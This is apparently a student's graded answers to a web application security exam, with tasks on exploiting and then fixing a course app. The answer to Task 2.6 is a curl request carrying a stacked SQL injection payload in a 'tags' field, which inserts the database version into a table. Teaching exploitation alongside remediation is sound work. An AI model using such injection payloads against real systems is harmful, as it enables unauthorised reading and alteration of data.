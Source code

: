 ![Untitled(6)](https://minio.llycloud.com/image/uPic/image-20210716aYoA65.png)

## Task 2.6

Using the vulnerability identified in 2.5, use Insomnia to craft and test an exploit that does one of the following:

- Modifies data in the database without authorisation
- Reveals data from the database without authorisation

 Use the Copy as Curl option to copy the request for this exploit and paste it in the box below:

25/30

---



```bash
curl --request POST \
  --url http://localhost:3000/addpost \
  --header 'Content-Type: application/json' \
  --cookie connect.sid=s%253A2JPRmUjDzgPkfxRb2Y0aOA-eDjESSZ7Y.YNBtrnuAUmFO6l6Bt4BkbBo1jJ1KijIpvVk%252BlTbWD2o \
  --data '{
	"title":"test",
	"content":"test",
	"tags":["test'\'',LAST_INSERT_ID());INSERT INTO question_tags (tagname, question)VALUES ((select version()), LAST_INSERT_ID());-- -"],
	"upvotes":0}'
```



## Task 2.7

Using the list below, fix the issues and make the improvements identified.

- Fix the validation and linting issues identified in 2.1 & 2.2.
- Fix any issues with the middleware in this web application as identified in 2.4.
- Fix the SQL injection vulnerability identified in 2.5.

 Excluding the node-modules folder, submit/upload the fixed/improved web applicaiton as a zip file

[80 marks]
Consisting of

- 20 marks for validation and linting issues fixed
- 30 marks for middleware issues fixed
- 30 marks for SQL injection issues fixed

57.25/80

---

## Exam Notes & Feedback
